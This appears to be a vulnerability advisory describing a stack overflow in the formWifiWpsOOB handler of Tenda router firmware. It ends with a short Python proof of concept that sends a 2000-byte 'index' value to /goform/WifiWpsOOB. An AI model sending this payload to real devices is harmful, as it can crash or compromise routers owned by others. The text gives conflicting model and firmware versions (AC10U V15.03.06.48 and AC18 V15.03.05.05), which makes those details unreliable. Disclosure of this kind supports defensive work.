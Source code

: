 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `index` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240309195802781](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195802781.png)

![image-20240309195638707](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195638707.png)

![image-20240309195719169](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195719169.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240309195750161](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195750161.png)